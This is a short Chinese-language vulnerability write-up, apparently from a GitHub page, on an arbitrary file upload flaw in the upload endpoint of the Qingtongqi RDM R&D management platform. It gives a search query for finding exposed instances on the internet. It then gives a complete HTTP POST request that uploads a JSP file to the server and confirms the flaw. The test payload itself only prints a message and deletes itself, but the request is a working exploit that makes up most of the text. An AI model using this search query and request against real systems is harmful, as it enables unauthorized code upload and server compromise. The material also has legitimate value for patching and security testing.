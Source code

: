 **漏洞简介**

青铜器RDM研发管理平台 upload接口处存在任意文件上传漏洞,恶意攻击者可以上传恶意软件，例如后门、木马或勒索软件，以获取对服务器的远程访问权限或者破坏系统，对服务器造成极大的安全隐患。

**漏洞复现**

步骤一：使用以下搜索语法获取测试资产并确定测试目标~~~

```
# 搜索语法body="/images/rdm.ico"
```

步骤二：使用以下数据包进行文件上传测试..在相应正文中返回上传文件位置即存在漏洞...

```yaml

POST /upload?dir=cmVwb3NpdG9yeQ==&name=ZGVtby5qc3A=&start=0&size=7000 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: multipart/form-data; boundary=98hgfhfbuefbhbvuyh98
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close


--98hgfhfbuefbhbvuyh98
Content-Disposition: form-data; name="file"; filename="ceshi.jsp"
Content-Type: application/octet-stream

<% out.println("Hello World!");new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>
--98hgfhfbuefbhbvuyh98
Content-Disposition: form-data; name="Submit"

Go
--98hgfhfbuefbhbvuyh98--
```

